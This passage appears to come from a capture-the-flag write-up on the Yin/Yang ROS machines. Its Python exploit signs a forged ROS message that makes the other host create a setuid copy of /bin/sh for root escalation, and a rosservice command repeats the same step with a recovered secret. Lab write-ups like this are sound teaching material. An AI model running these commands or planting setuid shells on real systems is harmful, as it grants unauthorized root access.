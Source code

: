 ```python
    #This function will craft the signature for the message based on the specific system being talked to
    def sign_message(self, message):
        hmac = self.getBase64(message)
        hmac = SHA256.new(hmac.encode('utf-8'))
        signature = PKCS1_v1_5.new(self.priv_key).sign(hmac)
        sig = base64.b64encode(signature).decode()
        message.hmac = sig
        return message

    def craft_ping(self, receiver):
        message = Comms()
        message.timestamp = str(rospy.get_time())
        message.sender = "Yin"
        message.receiver = receiver
        message.action = 1
        message.actionparams = ['cp /bin/sh /home/yang/sh && chmod u+s /home/yang/sh']
        #message.actionparams.append(self.priv_key_str)
        message.feedback = "ACTION"
        message.hmac = ""
        return message

    def send_pings(self):
        # Yang
        message = self.craft_ping("Yang")
        message = self.sign_message(message)
        self.messagebus.publish(message)

    def run_yin(self):
        # while not rospy.is_shutdown():
        self.send_pings()
        self.prompt_rate.sleep()

if __name__ == '__main__':
    try:
        yin = Yin()
        yin.run_yin()

    except rospy.ROSInterruptException:
        pass
```

This was largely just a customised version of the yin script that was already running. It would create on yang a suid-bit set version of sh, which could be used to escalate to root on that machine to recover both the yang flag and the secret key.

Once you had the secret key, you could use the ros cli to send a message to yin (from either machine) to do the same, creating a suid bit binary on that machine as well, e.g. with this command: `rosservice call /svc_yang "{'secret': '<recoveredsecret>', 'command': 'cp /bin/sh /home/yin/sh; chmod u+s /home/yin/sh
', 'sender': 'Yang', 'receiver': 'Yin'}"`
